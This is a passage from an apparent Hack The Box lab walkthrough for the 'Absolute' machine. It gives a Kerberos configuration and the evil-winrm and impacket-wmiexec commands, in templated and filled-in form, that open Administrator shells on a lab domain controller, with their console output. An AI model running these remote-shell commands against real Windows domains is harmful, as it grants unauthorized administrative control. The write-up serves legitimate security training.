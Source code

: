 ```console {class="sample-code"}
[libdefaults]
    default_realm = ABSOLUTE.HTB

[realms]
    ABSOLUTE.HTB = {
        kdc = DC.ABSOLUTE.HTB:88
        admin_server = DC.ABSOLUTE.HTB
        default_domain = ABSOLUTE.HTB
    }
    
[domain_realm]
    .domain.internal = ABSOLUTE.HTB
    domain.internal = ABSOLUTE.HTB
```

#### 2. Connect

```console
sudo ntpdate -s <DC_IP> && evil-winrm -i <TARGET_DOMAIN> -r <DOMAIN>
```

```console {class="sample-code"}
$ sudo ntpdate -s DC.ABSOLUTE.HTB && evil-winrm -i DC.ABSOLUTE.HTB -r ABSOLUTE.HTB
                                        
Evil-WinRM shell v3.5
                                        
Warning: Remote path completions is disabled due to ruby limitation: quoting_detection_proc() function is unimplemented on this machine
                                        
Data: For more information, check Evil-WinRM GitHub: https://github.com/Hackplayers/evil-winrm#Remote-path-completion
                                        
Info: Establishing connection to remote endpoint
*Evil-WinRM* PS C:\Users\Administrator\Documents> 
```

{{< /tabcontent >}}
{{< tabcontent set6 tab2 >}}

```console
sudo ntpdate -s <DC_IP> && impacket-wmiexec '<DOMAIN>/<USER>@<TARGET_DOMAIN>' -k -no-pass
```

```console {class="sample-code"}
$ sudo ntpdate -s DC.ABSOLUTE.HTB && impacket-wmiexec 'ABSOLUTE.HTB/Administrator@DC.ABSOLUTE.HTB' -k -no-pass
Impacket v0.12.0.dev1+20240730.164349.ae8b81d7 - Copyright 2023 Fortra

[*] SMBv3.0 dialect used
[!] Launching semi-interactive shell - Careful what you execute
[!] Press help for extra shell commands
C:\>
```

{{< /tabcontent >}}

---